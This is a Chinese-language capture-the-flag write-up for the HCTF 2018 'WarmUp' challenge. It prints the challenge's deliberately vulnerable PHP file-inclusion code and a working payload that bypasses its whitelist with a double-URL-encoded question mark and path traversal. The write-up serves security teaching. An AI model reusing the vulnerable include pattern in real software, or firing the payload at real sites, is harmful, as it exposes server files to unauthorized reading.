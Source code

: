 # [HCTF 2018]WarmUp

查看源代码发现注释内容 **source.php**，访问后的得到源代码：
```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

代码中提示存在 **hint.php**，访问后得到提示内容：
```
flag not here, and flag in ffffllllaaaagggg
```

根据代码内容，得出这是一道文件包含的题，需要满足三个条件即可包含文件：
1. 需要传入file参数
2. file参数必须是字符串
3. 绕过`emmm::checkFile()`函数检测

checkFile()函数中对文件名称进行截取从0到?的内容，然后进行白名单校验，然后进行url解码，再次进行校验。

如果直接以`source.php?/../../file`的方式是无法读取的，因为?号后面的内容会被忽略，可以对?号进行二次url编码，得到`%25%33%66`

然后根据hint内容构造payload:
```
file=source.php%25%33%66/../../../../ffffllllaaaagggg
```
